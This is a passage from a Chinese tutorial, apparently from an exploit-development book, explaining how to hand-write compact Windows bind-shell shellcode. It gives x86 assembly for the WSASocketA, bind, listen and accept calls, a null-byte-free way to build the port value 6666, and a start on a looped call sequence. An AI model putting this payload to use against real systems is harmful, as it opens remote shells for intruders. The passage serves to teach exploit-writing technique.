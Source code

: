 我们只关心前两个参数，其余的都将设置 NULL。对于 af 参数，这里将传入 2(AF_INET)，对于 type，传入 1（SOCK_STREAM）。由于栈区已经被初始化成 NULL，所以其余的 NULL参数压栈操作都可以省去了。

此外函数将返回一个 socket，在后面的调用中(bind 等)还要用到它。由于这里的 API 调用都不会修改 ebp 的值，所以我们可以用单字节的指令 xchg ebp, eax 把返回的 socket 保存在 ebp中，而不是用两个字节的压栈指令存入栈中。

```asm
inc eax
push eax ;type = 1 (SOCK_STREAM)
inc eax
push eax ;af = 2 (AF_INET)
lodsd 
call eax ;WSASocketA
xchg ebp, eax ;save SOCKET descriptor in ebp 
```

下面要让得到的 socket 监听客户端的连接，也就是调用 bind 函数，它有 3 个参数。
```c++
int bind(
	SOCKET s,
	const struct sockaddr* name,
	int namelen
 ); 
```

作为一个普通的程序员，通常可能会认为要正确地调用 bind 函数，首先需要完成以下工作。
- （1）创建并初始化一个 sockaddr 结构体。
- （2）把结构体的大小压入栈中。
- （3）把结构体的指针压入栈中。
- （4）把 socket 压入栈中。

如果打破这种常规的思维方式，我们可以做得更巧妙。
- 首先，大多数结构体的名字都允许为空，所以只用关心 sockaddr 中前两个成员变量。```short sin_family``` 和 ```u_short sin_port ```

- 其次，指明结构体大小的参数不一定真的就是精确的结构体长度。前面已经说过，只要这个参数足够大就行。所以这里将用 0x0a1a0002 作为指明结构体的大小的参数。其中，0x1a0a 是十进制的 6666，后面会被再次用作端口号；0x02 则还可用作指明 AF_INET。不巧的是，这个 0x0a1a0002 中包含一个字节的 null，所以不能直接引用这个 DWORD，必须用点心思巧妙地把它构造出来。

```
mov eax, 0x0a1aff02
xor ah, ah 	;remove the ff
push eax 	;"length" of our structure, and its first two members
push esp 	;pointer to our structure
push ebp 	;saved SOCKET descriptor
lodsd
call eax ;bind 
```

结构体中其他为NULL的部分就不用我们再去操心了，因为整个栈都已经被置成了NULL。后面还需要调用 listen 和 accept 函数，这两个函数的定义如下。
```c++
int listen(
	SOCKET s,
	int backlog
); 

SOCKET accept(
	SOCKET s,
	struct sockaddr* addr,
	int* addrlen
 ); 
```
对于这两个函数，调用的关键是我们前边已经存在 ebp 中的 socket，其他的参数还是一律传 NULL。accept 函数将返回另一个 socket 用来表示客户端的连接，而 bind 和 listen 函数调用成功时会返回 0。注意到这一点之后，可用返回值是否是 NULL 来作为循环结束的条件，在一个循环体中完成 3 次函数调用，而不是占用宝贵的 shellcode 空间来重复调用 3 次。读到这里，您就能明白前边把函数地址按照调用的顺序在栈里摆放的好处了。这个部分的代码如下。
```
call_loop:
	push ebp ;saved SOCKET descriptor
 	lodsd
 	call eax 		;call the next function
```